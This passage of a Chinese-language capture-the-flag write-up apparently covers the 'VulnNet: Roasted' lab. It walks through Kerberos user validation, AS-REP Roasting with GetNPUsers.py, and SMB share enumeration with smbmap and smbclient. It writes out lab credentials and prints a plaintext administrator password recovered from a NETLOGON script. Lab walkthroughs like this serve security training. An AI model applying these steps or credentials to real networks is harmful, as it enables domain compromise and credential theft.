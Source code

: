 枚举到用户之后, 我注意到开放了 Kerberos 服务, 所以尝试利用 Kerberos 服务

## 88 - Kerberos
先利用上面得到的用户名进行验证

![20240630231926](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240630231926.png)

验证成功后, 我开始尝试一些针对 Kerberos 服务的攻击, 先来尝试  AS-REP Roasting 使用 GetNPUsers.py 进行获取

![20240630231936](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240630231936.png)

然后我开始解密此票证

![20240630231947](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240630231947.png)


## 后渗透

获取到密码之后, 我使用此密码尝试访问 SMB 服务, 发现开启了新的共享, 查看其中的文件我发现了`a-whitehat` 的密码

```bash
root@ip-10-10-7-104:~/vulnnetroasted# smbmap.py -H 10.10.216.79 -u 't-skid' -p 'tj072889*'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com   
                     https://github.com/ShawnDEvans/smbmap

                                                                                                    
[+] IP: 10.10.216.79:445	Name: ip-10-10-216-79.eu-west-1.compute.internal	Status: Authenticated
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
	VulnNet-Business-Anonymous                        	READ ONLY	VulnNet Business Sharing
	VulnNet-Enterprise-Anonymous                      	READ ONLY	VulnNet Enterprise Sharing
root@ip-10-10-7-104:~/vulnnetroasted# smbclient //10.10.216.79/NETLOGON -U vulnnet-rst.local/t-skid
WARNING: The "syslog" option is deprecated
Enter VULNNET-RST.LOCAL\t-skid's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Mar 16 23:15:49 2021
  ..                                  D        0  Tue Mar 16 23:15:49 2021
  ResetPassword.vbs                   A     2821  Tue Mar 16 23:18:14 2021

		8771839 blocks of size 4096. 4513595 blocks available
smb: \> get ResetPassword.vbs 
getting file \ResetPassword.vbs of size 2821 as ResetPassword.vbs (1.4 KiloBytes/sec) (average 1.4 KiloBytes/sec)
smb: \> ^C
root@ip-10-10-7-104:~/vulnnetroasted# cat ResetPassword.vbs 
...
**strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"**
```